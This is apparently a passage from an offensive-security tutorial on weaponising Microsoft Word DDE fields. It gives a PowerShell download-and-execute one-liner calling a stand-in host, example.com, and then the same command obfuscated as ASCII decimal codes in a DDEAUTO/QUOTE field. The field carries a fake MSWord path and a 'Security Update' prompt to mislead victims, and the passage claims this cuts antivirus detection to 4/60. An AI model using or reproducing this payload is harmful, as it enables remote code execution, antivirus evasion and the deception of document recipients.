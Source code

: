 ![04 virus total](/img/dde-word/07-obfuscated-05.png)

Were you already thinking about how to obfuscate this further? Good!

---

## 5. Obfuscated powershell.exe (complete)

Now we are going to convert the entire payload within the DDE field to ASCII decimal codes in order to use it with the QUOTE technique. Unlike the previous payloads, the backslashes should not be escaped in this one. It will still work if they are, but it will also display two backslashes in the user prompt that shows the fake path to MSWord.

```
C:\Programs\Microsoft\Office\MSWord\..\..\..\..\windows\system32\windowspowershell\v1.0\powershell.exe -w 1 -nop IEX(new-object system.net.webclient).downloadstring('http://example.com/index')
```

In addition to dropping the second backlashes, we won't convert the double-quotes that surround the payload. They will be included in the first DDE field to encapsulate the QUOTE field. Here is the final payload once it is converted:

{ `DDEAUTO "`{`QUOTE 67 58 92 80 114 111 103 114 97 109 115 92 77 105 99 114 111 115 111 102 116 92 79 102 102 105 99 101 92 77 83 87 111 114 100 92 46 46 92 46 46 92 46 46 92 46 46 92 119 105 110 100 111 119 115 92 115 121 115 116 101 109 51 50 92 119 105 110 100 111 119 115 112 111 119 101 114 115 104 101 108 108 92 118 49 46 48 92 112 111 119 101 114 115 104 101 108 108 46 101 120 101 32 45 119 32 49 32 45 110 111 112 32 73 69 88 40 110 101 119 45 111 98 106 101 99 116 32 115 121 115 116 101 109 46 110 101 116 46 119 101 98 99 108 105 101 110 116 41 46 100 111 119 110 108 111 97 100 115 116 114 105 110 103 40 39 104 116 116 112 58 47 47 101 120 97 109 112 108 101 46 99 111 109 47 105 110 100 101 120 39 41`}`" "Security Update"`}

Using this obfuscation technique brings the detection rate down to 4/60.
